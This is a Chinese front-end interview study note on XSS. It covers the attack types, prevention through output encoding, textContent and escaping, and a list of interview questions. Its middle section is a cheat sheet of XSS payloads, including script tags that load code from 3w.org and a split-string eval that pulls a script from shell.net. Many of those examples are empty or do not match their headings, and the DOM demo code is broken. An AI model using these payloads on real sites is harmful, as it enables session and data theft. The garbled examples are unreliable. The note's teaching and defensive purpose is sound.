


+++
title = "XSS防御"
date = '2024-10-02T00:00:00+08:00'
lastmod = '2024-12-03T00:00:00+08:00'
draft = false
weight = 1
tags = ["面试", "前端", "前端安全", "XSS防御", "ecool"]
categories = ["前端开发", "面试"]
source = "https://fe.ecool.fun/knowledge-learn"
+++
## 一、简述

跨站脚本（Cross-site scripting，简称为：CSS, 但这会与层叠样式表（Cascading Style Sheets，CSS）的缩写混淆。因此，跨站脚本攻击缩写为XSS）是一种网站应用程序的安全漏洞攻击。

XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、 LiveScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

## 二、XSS类型

最常见的几种分类：**反射型（非持久型）XSS**、**存储型（持久型）XSS**、**DOM型XSS**、**通用型XSS**、**突变型XSS**。

### 反射型XSS

反射型XSS只是简单的把用户输入的数据从服务器反射给用户浏览器，要利用这个漏洞，攻击者必须以某种方式诱导用户访问一个精心设计的URL（恶意链接），才能实施攻击。

举例来说，当一个网站的代码中包含类似下面的语句:

```php
<?php echo "<p>hello,$_GET['user']</p>"; ?>
```

如果未做防范XSS，用户名设为`<script>alert("Tz")</script>`,则会执行预设好的JavaScript代码。

#### 漏洞成因

当用户的输入或者一些用户可控参数未经处理地输出到页面上，就容易产生XSS漏洞。主要场景有以下几种：

-  将不可信数据插入到HTML标签之间时；// 例如div, p, td；
-  将不可信数据插入到HTML属性里时；// 例如：`<div width=$INPUT></div>`
-  将不可信数据插入到SCRIPT里时；// 例如：`<script>var message = ” $INPUT “;</script>`
-  还有插入到Style属性里的情况，同样具有一定的危害性；// 例如`<span style=” property : $INPUT ”></span>`
-  将不可信数据插入到HTML URL里时，// 例如：`<a href=”[http://www.abcd.com?param=](http://www.ccc.com/?param=) $INPUT ”></a>`
-  使用富文本时，没有使用XSS规则引擎进行编码过滤。

**对于以上的几个场景，若服务端或者前端没有做好防范措施，就会出现漏洞隐患。**

#### 攻击流程

反射型XSS通常出现在搜索等功能中，需要被攻击者点击对应的链接才能触发，且受到XSS Auditor(chrome内置的XSS保护)、NoScript等防御手段的影响较大，所以它的危害性较存储型要小。



### 存储型XSS

​ 存储型（或 HTML 注入型/持久型）XSS 攻击最常发生在由社区内容驱动的网站或 Web 邮件网站，不需要特制的链接来执行。黑客仅仅需要提交 XSS 漏洞利用代码（反射型XSS通常只在url中）到一个网站上其他用户可能访问的地方。这些地区可能是`博客评论，用户评论，留言板，聊天室，HTML 电子邮件，wikis`，和其他的许多地方。一旦用户访问受感染的页，执行是自动的。

#### 漏洞成因

​ 存储型XSS漏洞的成因与反射型的根源类似，不同的是恶意代码会被保存在服务器中，导致其它用户（前端）和管理员（前后端）在访问资源时执行了恶意代码，用户访问服务器-跨站链接-返回跨站代码。

#### 攻击流程



### DOM型XSS

通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS。

#### 漏洞成因

DOM型XSS是基于DOM文档对象模型的。对于浏览器来说，DOM文档就是一份XML文档，当有了这个标准的技术之后，通过JavaScript就可以轻松的访问DOM。当确认客户端代码中有DOM型XSS漏洞时，诱使(钓鱼)一名用户访问自己构造的URL，利用步骤和反射型很类似，但是唯一的区别就是，构造的URL参数不用发送到服务器端，可以达到绕过WAF、躲避服务端的检测效果。

#### 攻击示例

```html
<html>
    <head>
        <title>DOM Based XSS Demo</title>
        <script>
        function xsstest()
        {
        var str = document.getElementById("input").value;
        document.getElementById("output").innerHTML = "</img>";
        }
        </script>
    </head>
    <body>
    <div id="output"></div>
    <input type="text" id="input" size=50 value="" />
    <input type="button" value="submit" onclick="xsstest()" />
    </body>
</html>
```

在这段代码中，submit按钮的onclick事件调用了xsstest()函数。而在xsstest()中，修改了页面的DOM节点，通过innerHTML把一段用户数据当作HTML写入到页面中，造成了DOM Based XSS。

### 通用型XSS

通用型XSS，也叫做UXSS或者Universal XSS，全称Universal Cross-Site Scripting。

上面三种XSS攻击的是因为客户端或服务端的代码开发不严谨等问题而存在漏洞的目标网站或者应用程序。这些攻击的先决条件是访问页面存在漏洞，但是UXSS是一种利用浏览器或者浏览器扩展漏洞来制造产生XSS的条件并执行代码的一种攻击类型。

#### 漏洞成因

Web浏览器是正在使用的最流行的应用程序之一，当一个新漏洞被发现的时候，不管自己利用还是说报告给官方，而这个过程中都有一段不小的时间，这一过程中漏洞都可能被利用于UXSS。

不仅是浏览器本身的漏洞，现在主流浏览器都支持扩展程序的安装，而众多的浏览器扩展程序可能导致带来更多的漏洞和安全问题。因为UXSS攻击不需要网站页面本身存在漏洞，同时可能访问其他安全无漏洞页面，使得UXSS成为XSS里危险和最具破坏性的攻击类型之一。

#### 漏洞案例

##### IE6或火狐浏览器扩展程序Adobe Acrobat的漏洞

这是一个比较经典的例子。当使用扩展程序时导致错误，使得代码可以执行。这是一个在pdf阅读器中的bug，允许攻击者在客户端执行脚本。构造恶意页面，写入恶意脚本，并利用扩展程序打开pdf时运行代码。tefano Di Paola 和 Giorgio Fedon在一个在Mozilla Firefox浏览器Adobe Reader的插件中可利用的缺陷中第一个记录和描述的UXSS，Adobe插件通过一系列参数允许从外部数据源取数据进行文档表单的填充，如果没有正确的执行，将允许跨站脚本攻击。

案例详见: [Acrobat插件中的UXSS报告](https://blog.jeremiahgrossman.com/2007/01/what-you-need-to-know-about-uxss-in.html)

##### Flash Player UXSS 漏洞 – CVE-2011-2107

一个在2011年Flash Player插件（当时的所有版本）中的缺陷使得攻击者通过使用构造的.swf文件，可以访问Gmail设置和添加转发地址。因此攻击者可以收到任意一个被攻破的Gmail帐号的所有邮件副本（发送的时候都会抄送份）。Adobe承认了该漏洞.

案例详见: [Flash Player UXSS 漏洞 – CVE-2011-2107报告](http://www.adobe.com/support/security/bulletins/apsb11-13.html)

移动设备也不例外，而且可以成为XSS攻击的目标。Chrome安卓版存在一个漏洞，允许攻击者将恶意代码注入到Chrome通过Intent对象加载的任意的web页面。

##### 安卓版Chrome浏览器漏洞

案例详见: [Issue 144813: Security: UXSS via com.android.browser.application_id Intent extra](https://code.google.com/p/chromium/issues/detail?id=144813)

### 突变型XSS

突变型XSS，也叫做mXSS或，全称Mutation-based Cross-Site-Scripting。（mutation，突变，来自遗传学的一个单词，大家都知道的基因突变，gene mutation）

#### 漏洞成因

然而，如果用户所提供的富文本内容通过javascript代码进入innerHTML属性后，一些意外的变化会使得这个认定不再成立：浏览器的渲染引擎会将本来没有任何危害的HTML代码渲染成具有潜在危险的XSS攻击代码。

随后，该段攻击代码，可能会被JS代码中的其它一些流程输出到DOM中或是其它方式被再次渲染，从而导致XSS的执行。 这种由于HTML内容进入innerHTML后发生意外变化，而最终导致XSS的攻击流程。

#### 攻击流程

​ 将拼接的内容置于innerHTML这种操作，在现在的WEB应用代码中十分常见，常见的WEB应用中很多都使用了innerHTML属性，这将会导致潜在的mXSS攻击。从浏览器角度来讲，mXSS对三大主流浏览器（IE，CHROME，FIREFOX）均有影响。

##### mXSS种类

目前为止已知的mXSS种类，接下来的部分将分别对这几类进行讨论与说明。

-  反引号打破属性边界导致的 mXSS；（该类型是最早被发现并利用的一类mXSS，于2007年被提出，随后被有效的修复）
-  未知元素中的xmlns属性所导致的mXSS；（一些浏览器不支持HTML5的标记，例如IE8，会将article，aside，menu等当作是未知的HTML标签。）
-  CSS中反斜线转义导致的mXSS；（在CSS中，允许用\来对字符进行转义，例如：`property: 'v\61 lue'` 表示 `property:'value'`，其中61是字母a的ascii码（16进制）。\后也可以接unicode，例如：\20AC 表示 € 。正常情况下，这种转义不会有问题。但是碰上innerHTML后，一些奇妙的事情就会发生。）
-  CSS中双引号实体或转义导致的mXSS；（接着上一部分，依然是CSS中所存在的问题，`&quot;` `&#x22;` `&#34;` 等双引号的表示形式均可导致这类问题，）
-  CSS属性名中的转义所导致的mXSS；
-  非HTML文档中的实体突变；
-  HTML文档中的非HTML上下文的实体突变；

## 三、XSS攻击代码出现的场景

-  **普通的XSS JavaScript注入**，示例如下：<br>
```xml
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
```
-  **IMG标签XSS使用JavaScript命令**，示例如下：<br>
```xml
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
```
-  **IMG标签无分号无引号**，示例如下：<br>
```css

```
-  **IMG标签大小写不敏感**，示例如下：<br>
```css

```
-  **HTML编码(必须有分号)**，示例如下：<br>
```css

```
-  **修正缺陷IMG标签**，示例如下：<br>
```xml
<SCRIPT>alert(“XSS”)</SCRIPT>”>
```
-  **formCharCode标签**，示例如下：<br>
```css

```
-  **UTF-8的Unicode编码**，示例如下：<br>
```css

```
-  **7位的UTF-8的Unicode编码是没有分号的**，示例如下：<br>
```css

```
-  **十六进制编码也是没有分号**，示例如下：<br>
```css

```
-  **嵌入式标签,将Javascript分开**，示例如下：<br>
```css

```
-  **嵌入式编码标签,将Javascript分开**，示例如下：<br>
```css

```
-  **嵌入式换行符**，示例如下：<br>
```css

```
-  **嵌入式回车**，示例如下：<br>
```css

```
-  **嵌入式多行注入JavaScript,这是XSS极端的例子**，示例如下：<br>
```css

```
-  **解决限制字符(要求同页面)**，示例如下：<br>
```javascript
      <script>z=z+ ’write(“‘</script>

      <script>z=z+ ’<script’</script>

      <script>z=z+ ’ src=ht’</script>

      <script>z=z+ ’tp://ww’</script>

      <script>z=z+ ’w.shell’</script>

      <script>z=z+ ’.net/1.’</script>

      <script>z=z+ ’js></sc’</script>

      <script>z=z+ ’ript>”)’</script>

      <script>eval_r(z)</script>
```
-  **空字符**，示例如下：<br>
```css
      perl -e ‘print “”;’ > out
```
-  **空字符2,空字符在国内基本没效果.因为没有地方可以利用**，示例如下：<br>
```scss
      perl -e ‘print “<SCR\0IPT>alert(\”XSS\”)</SCR\0IPT>”;’ > out
```
-  **Spaces和meta前的IMG标签**，示例如下：<br>
```css

```
-  **Non-alpha-non-digit XSS**，示例如下：<br>
```css
<SCRIPT/XSS SRC=\'#\'" /span>http://3w.org/XSS/xss.js”></SCRIPT>
```
-  **Non-alpha-non-digit XSS to 2**，示例如下：<br>
```css
<BODY onload!#$%&()*~+ -_.,:;?@[/|\]^`=alert(“XSS”)>
```
-  **Non-alpha-non-digit XSS to 3**，示例如下：<br>
```css
<SCRIPT/SRC=\'#\'" /span>http://3w.org/XSS/xss.js”></SCRIPT>
```
-  **双开括号**，示例如下：<br>
```xml
<<SCRIPT>alert(“XSS”);//<</SCRIPT>
```
-  **无结束脚本标记(仅火狐等浏览器)**，示例如下：<br>
```xml
<SCRIPT SRC=http://3w.org/XSS/xss.js?<B>
```
-  **无结束脚本标记2**，示例如下：<br>
```xml
<SCRIPT SRC=//3w.org/XSS/xss.js>
```
-  **半开的HTML/JavaScript XSS**，示例如下：<br>
```css

```
-  **双开角括号**，示例如下：<br>
```css
<iframe src=http://3w.org/XSS.html <
```
-  **无单引号 双引号 分号**，示例如下：<br>
```xml
<SCRIPT>a=/XSS/
alert(a.source)</SCRIPT>
```
-  **换码过滤的JavaScript**，示例如下：<br>
```scss
  \”;alert(‘XSS’);//
```
-  **结束Title标签**，示例如下：<br>
```xml
</TITLE><SCRIPT>alert(“XSS”);</SCRIPT>
```
-  **Input Image**，示例如下：<br>
```css
<INPUT SRC=\'#\'" /span>
```
-  **BODY Image**，示例如下：<br>
```css
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>
```
-  **BODY标签**，示例如下：<br>
```css
<BODY(‘XSS’)>
```
-  **IMG Dynsrc**，示例如下：<br>
```css

```
-  **IMG Lowsrc**，示例如下：<br>
```css

```
-  **BGSOUND**，示例如下：<br>
```css
<BGSOUND SRC=\'#\'" /span>
```
-  **STYLE sheet**，示例如下：<br>
```ini
<LINK REL=”stylesheet” HREF=”javascript:alert(‘XSS’);”>
```
-  **远程样式表**，示例如下：<br>
```xml
<LINK REL=”stylesheet” HREF=”http://3w.org/xss.css”>
```
-  **List-style-image(列表式)**，示例如下：<br>
```xml
<STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS
```
-  **IMG VBscript**，示例如下：<br>
```css
<UL><LI>XSS
```
-  **META链接url**，示例如下：<br>
```xml
<META HTTP-EQUIV=”refresh” CONTENT=”0; URL=http://;URL=javascript:alert(‘XSS’);”>
```
-  **Iframe**，示例如下：<br>
```css
<IFRAME SRC=\'#\'" /IFRAME>
```
-  **Frame**，示例如下：<br>
```xml
<FRAMESET><FRAME SRC=\'#\'" /FRAMESET>
```
-  **Table**，示例如下：<br>
```css
<TABLE BACKGROUND=”javascript:alert(‘XSS’)”>
```
-  **TD**，示例如下：<br>
```css
<TABLE><TD BACKGROUND=”javascript:alert(‘XSS’)”>
```
-  **DIV background-image**，示例如下：<br>
```css
<DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>
```
-  **DIV background-image后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)**，示例如下：<br>
```css
<DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>
```
-  **DIV expression**，示例如下：<br>
```css
<DIV STYLE=”width: expression_r(alert(‘XSS’));”>
```
-  **STYLE属性分拆表达**，示例如下：<br>
```css

```
-  **匿名STYLE(组成:开角号和一个字母开头)**，示例如下：<br>
```css
<XSS STYLE=”xss:expression_r(alert(‘XSS’))”>
```
-  **STYLE background-image**，示例如下：<br>
```xml
<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A CLASS=XSS></A>
```
-  **IMG STYLE方式**，示例如下：<br>
```scss
  exppression(alert(“XSS”))’>
```
-  **STYLE background**，示例如下：<br>
```xml
<STYLE><STYLE type=”text/css”>BODY{background:url(“javascript:alert(‘XSS’)”)}</STYLE>
```
-  **BASE**，示例如下：<br>
```ini
<BASE HREF=”javascript:alert(‘XSS’);//”>
```

## 四、XSS 攻击的预防

网上防范XSS攻击的方法一搜就一大堆，但是无论方法有多少，始终是万变不离其宗。

**XSS 攻击有两大要素： 1. 攻击者提交恶意代码。 2. 浏览器执行恶意代码。**

### 1.预防 DOM 型 XSS 攻击

DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。

在使用 `.innerHTML、.outerHTML、document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 `.textContent、.setAttribute()` 等。

DOM 中的内联事件监听器，如 `location、onclick、onerror、onload、onmouseover` 等， 标签的`href`属性，JavaScript 的`eval()、setTimeout()、setInterval()`等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易 产生安全隐患，请务必避免。

### 2.输入过滤

如果由前端过滤输入，然后提交到后端的话。一旦攻击者绕过前端过滤，直接构造请求，就可以提交恶意代码了。

那么，换一个过滤时机：后端在写入数据库前，对输入进行过滤，然后把“安全的”内容，返回给前端。这样是否可行呢？ 我们举一个例子，一个正常的用户输入了 5 < 7 这个内容，在写入数据库前，被转义，变成了 5 `$lt;` 7。 问题是：在提交阶段，我们并不确定内容要输出到哪里。

这里的“并不确定内容要输出到哪里”有两层含义：

1. 用户的输入内容可能同时提供给前端和客户端，而一旦经过了 escapeHTML()，客户端显示的内容就变成了乱码( 5 `$lt;`7 )。
2. 在前端中，不同的位置所需的编码也不同。 当 5 `$lt;`7 作为 HTML 拼接页面时，可以正常显示：`5 < 7`

所以输入过滤非完全可靠，我们就要通过“防止浏览器执行恶意代码”来防范 XSS，可采用下面的两种方法

### 3.前端渲染把代码和数据分隔开

在前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式 （.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

-  Javascript：可以使用textContent或者innerText的地方，尽量不使用innerHTML；
-  query：可以使用text()得地方，尽量不使用html()；

### 4.拼接HTML时对其进行转义

如果拼接 HTML 是必要的，就需要采用合适的转义库，对 HTML 模板各处插入点进行充分的转义。

常用的模板引擎，如 doT.js、ejs、FreeMarker 等，对于 HTML 转义通常只有一个规则，就是把 & < > " ' / 这几个字符转义掉，确 实能起到一定的 XSS 防护作用，但并不完善：

这里推荐一个前端防止XSS攻击的插件: [js-xss的使用和源码解读](https://juejin.cn/post/6913344728515739661)，Git 3.8K 的Star和60W的周下载量证明了其强大性.

## 五、总结

防范 XSS 是不只是服务端的任务，需要后端和前端共同参与的系统工程。虽然很难通过技术手段完全避免XSS，但我们原则上减少漏洞的产生。

## 常见考点

### **1. XSS 的基本概念**

#### **问题**：

- 什么是 XSS？为什么会发生？
- XSS 攻击的主要目标是什么？它对网站和用户可能造成哪些危害？
- XSS 和 CSRF 有什么区别？

---

### **2. XSS 的分类**

#### **问题**：

- **存储型 XSS**：<br>
  - 什么是存储型 XSS？它的攻击过程是什么？
  - 能否举例说明存储型 XSS 的常见场景？
- **反射型 XSS**：<br>
  - 什么是反射型 XSS？与存储型 XSS 的主要区别是什么？
  - 常见的反射型 XSS 攻击点在哪里？
- **DOM 型 XSS**：<br>
  - 什么是 DOM 型 XSS？它与存储型和反射型的区别是什么？
  - DOM 型 XSS 的常见场景有哪些？
- **问题延展**：<br>
  - 哪种 XSS 的危害最大？为什么？
  - 你是否了解混合型 XSS？它是如何运作的？

---

### **3. XSS 的触发场景**

#### **问题**：

- 在用户输入的数据没有被过滤的情况下，哪些地方容易受到 XSS 攻击？<br>
  - 例如：HTML 标签内、属性值、事件处理器、URL、CSS、JSON。
- 什么是基于 `<script>` 注入的 XSS？它与其他标签注入（如 ``）有什么不同？
- 在现代框架（如 React、Vue）中，是否可能出现 XSS？如果可能，请举例说明。

---

### **4. XSS 的检测与分析**

#### **问题**：

- 如何在代码审查过程中识别潜在的 XSS 漏洞？
- 有哪些自动化工具可以用来检测 XSS 漏洞？如 Burp Suite、OWASP ZAP。
- 你在实际项目中如何测试页面是否存在 XSS 漏洞？（例如输入 `<script>alert(1)</script>`）

---

### **5. XSS 的防御手段**

#### **问题**：

- **编码与过滤**：<br>
  - 什么是输入过滤和输出编码？为什么都很重要？
  - 对于不同的上下文（HTML、属性、URL、JavaScript 等），如何进行输出编码？
  - 使用 `encodeURIComponent` 和 `escape` 时，需要注意哪些问题？
- **内容安全策略（CSP）**：<br>
  - 什么是 CSP？它是如何防御 XSS 的？
  - 如何配置 CSP？有哪些常见的错误配置？
- **防止 DOM 型 XSS**：<br>
  - 为什么不推荐使用 `innerHTML` 等 API？
  - 安全替代方案有哪些（如 `textContent`、`setAttribute`）？
- **现代框架的内置防护**：<br>
  - React、Vue 等框架如何默认防御 XSS？
  - 使用这些框架时，是否有场景需要开发者特别注意？
- **其他防御策略**：<br>
  - 什么是 HTTP-only Cookie？它与 XSS 防御有什么关系？
  - 如何利用 Subresource Integrity（SRI）防御第三方资源中的恶意代码？

---

### **6. 真实场景问题**

#### **问题**：

- 如果用户评论模块允许输入富文本，如何防止 XSS？
- 如果你接手了一个老旧项目，发现有直接渲染用户输入到页面的行为，你会如何处理？
- 某个功能需要动态生成一段 HTML 并插入页面，你会如何保证安全性？
- 如果项目中需要支持 Markdown 渲染，如何防止 XSS 攻击？

---

### **7. XSS 与现代开发的结合**

#### **问题**：

- 为什么说 XSS 攻击在现代 Web 应用中依然普遍存在？
- 前后端分离的架构下，XSS 攻击是否更容易？如何防御？
- WebSocket 和 SSE 是否可能受到 XSS 攻击？如何防御？

---

### **8. XSS 攻击演示与防御演练**

#### **问题**：

- 设计一个简单的场景，让候选人模拟如何通过 XSS 攻击获取 Cookie。
- 给出一段含漏洞的代码片段，要求候选人分析并修复：<br>
```javascript
const query = location.search;
document.body.innerHTML = `<div>${query}</div>`;
```
- 如果提供一个含有 XSS 漏洞的页面，如何快速验证攻击是否成功？

---

### **9. 项目实践经验**

#### **问题**：

- 你在项目中是否遇到过 XSS 漏洞？是如何发现并修复的？
- 有哪些工具或库可以帮助你防御 XSS？你最推荐哪种？
- 如果团队中有人忽略了安全问题导致 XSS 漏洞，你会如何推动安全意识？

---

### **10. 安全意识与责任**

#### **问题**：

- XSS 是一种用户行为可能引发的攻击，那么防御 XSS 是开发者、测试人员还是安全团队的责任？
- 除了 XSS，你认为前端开发还应该关注哪些安全问题？
